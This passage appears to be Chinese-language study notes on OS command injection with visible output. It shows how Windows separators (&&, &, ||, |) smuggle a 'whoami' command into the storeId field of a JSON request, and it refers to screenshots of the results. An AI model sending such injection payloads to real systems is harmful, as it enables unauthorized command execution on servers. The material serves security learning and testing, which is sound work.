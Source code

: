 ## 有回显注入
还是以示例为例，在不修改代码的情况下，将上述常用符号过一遍
### windows
#### &&
```json
{
	"productId":"22",
  "storeId":"3&&whoami"
}
```
#### &
```json
{
	"productId":"22",
  "storeId":"3&whoami"
}
// 或者让前一个命令为错误
{
	"productId":"22",
  "storeId":"3aa&&whoami"
}
```


![image.png](OS 注入.assets/1634029229116-cd297daa-4a72-4a0e-824d-3e47aff59296.png)



![image.png](./OS 注入.assets/2023_05_19_10_39_56_AOWcw3Zp.png)



#### ||
```json
{
	"productId":"22",
  "storeId":"3aa||whoami"
}
```


![image.png](./OS 注入.assets/2023_05_19_10_39_56_LCSqUKEo.png)



#### |
```json
{
	"productId":"22",
  "storeId":"3|whoami"
}
```
![image.png](./OS 注入.assets/2023_05_19_10_39_57_ftki0RIu.png)
